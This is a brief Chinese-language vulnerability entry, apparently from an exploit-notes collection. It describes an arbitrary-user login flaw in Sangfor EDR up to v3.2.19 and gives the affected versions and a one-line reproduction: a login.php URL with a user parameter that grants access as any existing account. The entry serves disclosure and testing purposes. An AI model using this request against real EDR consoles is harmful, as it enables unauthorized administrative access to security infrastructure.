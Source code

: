 # 深信服 EDR 后台任意用户登陆漏洞

# 深信服 EDR 后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 漏洞影响

```
EDR <= v3.2.19
```

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

注意最后的admin需要为存在的用户名

![img](/images/202202091912509.png)


